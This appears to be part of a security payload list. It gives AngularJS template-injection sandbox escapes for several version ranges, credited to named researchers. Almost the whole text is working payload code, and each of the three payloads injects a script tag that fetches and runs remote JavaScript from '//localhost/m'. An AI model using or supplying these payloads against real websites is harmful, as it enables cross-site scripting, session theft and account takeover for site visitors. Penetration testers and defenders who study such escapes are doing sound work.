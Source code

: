 
Shorter 1.0.1 - 1.1.5 && > 1.6.0 by Lewis Ardern (Synopsys) and Gareth Heyes (PortSwigger)

```javascript

{{

$on.constructor("var _ = document.createElement('script');

_.src='//localhost/m';

document.getElementsByTagName('body')[0].appendChild(_)")()

}}

```

  
---
1.2.0 - 1.2.5 by Gareth Heyes (PortSwigger)
  
```javascript

{{

a="a"["constructor"].prototype;a.charAt=a.trim;

$eval('a",eval(`var _=document\\x2ecreateElement(\'script\');

_\\x2esrc=\'//localhost/m\';

document\\x2ebody\\x2eappendChild(_);`),"')

}}

```

  
---
1.2.6 - 1.2.18 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript

{{

(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("

var _ = document.createElement(\'script\');

_.src=\'//localhost/m\';

document.getElementsByTagName(\'body\')[0].appendChild(_)")')()

}}

```
